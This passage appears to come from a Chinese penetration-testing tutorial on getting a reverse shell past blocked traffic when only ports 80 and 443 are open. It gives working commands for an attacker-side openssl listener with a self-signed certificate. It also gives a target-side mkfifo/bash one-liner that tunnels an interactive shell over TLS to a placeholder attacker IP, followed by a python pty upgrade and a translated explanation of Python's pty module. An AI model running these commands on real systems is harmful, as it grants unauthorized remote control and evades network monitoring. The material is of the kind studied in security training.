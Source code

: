 ### 2、只有80和443端口且反弹Shell流量被拦截

方法论：加密流量，绕过拦截。

1、攻击机上生成SSL证书的公钥/私钥对：

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

2、攻击机监听端口：

```bash
openssl s_server -quiet  -key key.pem -cert cert.pem -port 443
```

3、目标主机连接：

```bash
mkfifo /tmp/yang;/bin/bash -i < /tmp/yang 2>&1 |openssl s_client -quiet -connect x.x.x.x:443 > /tmp/yang; rm /tmp/yang
```

![image-20220118212315775](https://{{site.PicturesLinks_Domain}}/images/2022/01/18/20220118212323.png)

由上图可以看到左边终端已变换成右边终端。

## 终端命令缺陷修复

若反弹的Shell无法使用Tab补全的话，通过以下方法修复：

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

原理：`pty`模块定义了一些处理“伪终端”概念的操作：启动另一个进程并能以程序方式在其控制终端中进行读写。

`pty.spawn(argv[, master_read[, stdin_read]])`产生一个进程，并将其控制终端与当前进程的标准IO。这常被用来应对坚持要从控制终端读取数据的程序。 在 `pty` 背后生成的进程预期最后将被终止，而且当它被终止时 `spawn`将会返回。

将当前进程的 STDIN 拷贝到子进程并将从子进程接收的数据拷贝到当前进程的 STDOUT 的循环。 如果当前进程的 STDIN 关闭则它不会向子进程发信号。

`master_read` 和 `stdin_read` 函数会被传入一个文件描述符供它们读取内容，并且它们总是应当返回一个字节串。 为了强制 `spawn` 在子进程退出之前返回，应当返回一个空字节数组来提示文件的结束。

两个函数的默认实现在每次函数被调用时将读取并返回至多 1024 个字节。 会向 `master_read` 回调传入伪终端的主文件描述符以从子进程读取输出，而向 `stdin_read` 传入文件描述符 0 以从父进程的标准输入读取数据。

从两个回调返回空字节串会被解读为文件结束 (EOF) 条件，在此之后回调将不再被调用。 如果 `stdin_read` 发出 EOF 信号则控制终端就不能再与父进程或子进程进行通信。 除非子进程将不带任何输入就退出，否则随后 `spawn` 将一直循环下去。 如果 `master_read` 发出 EOF 信号则会有相同的行为结果（至少是在 Linux 上）。

在Python 3.4 版更改: spawn() 现在从子进程的`os.waitpid()`返回状态值。